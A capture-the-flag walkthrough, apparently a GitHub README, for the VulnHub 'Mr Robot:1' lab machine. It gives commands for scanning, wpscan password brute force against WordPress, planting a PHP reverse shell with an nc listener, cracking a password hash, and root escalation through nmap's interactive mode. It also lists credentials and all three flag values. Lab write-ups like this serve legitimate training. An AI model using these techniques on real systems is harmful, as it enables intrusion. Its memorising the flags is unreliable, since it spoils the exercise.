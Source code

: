 [![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)](#) 
[![Virtual Lab](https://img.shields.io/badge/VirtualBox-183A61?style=for-the-badge&logo=virtualbox&logoColor=white)](#) 
[![VulnHub](https://img.shields.io/badge/VulnHub-26A69A?style=for-the-badge&logo=v&logoColor=white)](https://www.vulnhub.com) 
[![Mr Robot:1](https://img.shields.io/badge/Mr_Robot_1-D32F2F?style=for-the-badge&logo=robots&logoColor=white)](https://www.vulnhub.com/entry/mr-robot-1,151/) 
[![Nmap](https://img.shields.io/badge/Nmap-4CAF50?style=for-the-badge&logo=n&logoColor=white)](https://nmap.org) 
[![Wpscan](https://img.shields.io/badge/Wpscan-F44336?style=for-the-badge&logo=wordpress&logoColor=white)](https://github.com/wpscanteam/wpscan) 
[![Dirsearch](https://img.shields.io/badge/Dirsearch-FF9800?style=for-the-badge&logo=search&logoColor=white)](https://github.com/maurosoria/dirsearch) 
[![Netcat](https://img.shields.io/badge/Netcat-9E9E9E?style=for-the-badge&logo=nc&logoColor=white)](https://nc110.sourceforge.io/)  [![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://www.python.org)  [![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.gnu.org/software/bash/)  [![WordPress](https://img.shields.io/badge/WordPress-21759B?style=for-the-badge&logo=wordpress&logoColor=white)](https://wordpress.org)  
[![Reverse Shell](https://img.shields.io/badge/Reverse_Shell-000000?style=for-the-badge&logo=linux&logoColor=white)](#)  [![CrackStation](https://img.shields.io/badge/CrackStation-5D4037?style=for-the-badge&logo=lock&logoColor=white)](https://crackstation.net)  

# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.
![Screenshot 1](Mr_robot/pictures/0.png "Screenshot of the setup")
5. Boot up Both the machines.
 



--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```
![ifconfig1](\pictures\2 "ifconfig")
You can see my ip address.

![arp-scan -l](\pictures\1 "ifconfig")
Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 
![nmap](\pictures\3 "nmap -p- -A 10.38.1.113 -oN scan.txt")
Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```
![Dirsearch](\pictures\4 "Dirsearsh result")

This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.
![Robots.txt](\pictures\4 "Robots")

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```

### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page
![Dirsearch-wplogin](\pictures\6 "wordpress").
5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```
![wp-users](\pictures\7 "wordpress- users enumirated and found users").
Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```
![Wp - password](\pictures\8 "Password for the user elliot").
Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```
![shell](\pictures\9 "reverse shell")
This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using ![crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
![nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`



















